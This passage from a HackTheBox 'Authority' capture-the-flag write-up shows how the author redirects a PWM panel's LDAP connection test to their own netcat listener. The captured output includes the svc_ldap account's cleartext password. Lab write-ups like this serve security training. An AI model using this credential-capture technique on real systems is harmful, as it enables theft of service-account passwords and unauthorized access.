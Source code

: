 After digging around the panel for a bit, we find the LDAP connection page that has a `Test LDAP Profile` button.

Sometimes, it is possible to retrieve cleartext credentials by tricking the LDAP connection tester to connect to your own `netcat` listener. Since it is using LDAPS, however, we will need to try editing
the existing LDAP URL `ldaps://authority.htb.corp:636` to use `ldap://` and port `389`, pointing it to our attacking machine's host IP instead (`ldap://10.10.14.22:389`). After editing it like so, we click `OK` to save it.

<img src=".\assets\screenshots\hackthebox_authority_firefox_8443_config_editor.png" alt="HackTheBox - Authority | https://10.10.11.222:8443/pwm/private/config/editor" width="700"/>

Next, we start a `netcat` listener on port 389 and click the `Test LDAP Profile` button on PWM.
We promptly get a callback on our listener that contains the password for the `svc_ldap` account.

`netcat -lvnp 389`:
```
listening on [any] 389 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.11.222] 55645
0Y`T;CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb�lDaP_1n_th3_cle4r! ←
```

<🔄 Alternative Step>

An alternative is to download, edit, import and then re-download the configuration.
